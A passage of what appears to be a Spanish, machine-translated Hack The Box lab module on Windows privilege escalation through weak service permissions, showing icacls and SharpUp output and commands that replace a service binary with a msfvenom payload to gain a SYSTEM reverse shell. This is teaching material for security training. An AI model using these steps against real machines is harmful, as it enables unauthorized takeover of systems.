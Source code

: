   Permisos débiles

```powershell-session
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

#### Reemplazo de servicio binario

Este servicio también es inicio por los usuarios no privilegiados, por lo que podemos hacer una copia de seguridad del binario original y reemplazarlo con un binario malicioso generado con`msfvenom`. Puede darnos una carcasa inversa como`SYSTEM`, o agregue un usuario administrativo local y nos brinde un control administrativo completo sobre la máquina.

  Permisos débiles

```cmd-session
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

---

## Permisos de servicio débiles

#### Revisando Sharpup nuevamente

Vamos a ver el`SharpUp`Salida nuevamente para cualquier servicio modificable. Vemos el`WindscribeService`está potencialmente mal configurado.

  Permisos débiles

```cmd-session
C:\htb> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
```
